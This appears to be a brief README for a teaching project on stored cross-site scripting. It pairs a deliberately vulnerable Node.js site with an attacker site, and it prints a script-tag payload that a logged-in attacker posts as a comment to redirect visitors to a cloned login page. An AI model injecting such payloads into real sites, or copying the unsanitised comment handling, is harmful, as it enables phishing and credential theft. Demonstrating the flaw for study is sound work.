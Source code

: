 #STORED XSS VULNERABILITIES
This deals with stored XSS vulnerabilities. You will find a vulnerable Node.js website and an attacking website. The attacker logs in with their credentials (e.g., user1/password1) and injects the following script into the comments:
```bash
<script>
  window.location.href = 'http://localhost:4000/login';
</script>
```

which redirects users to a clone page of the hacker's site."
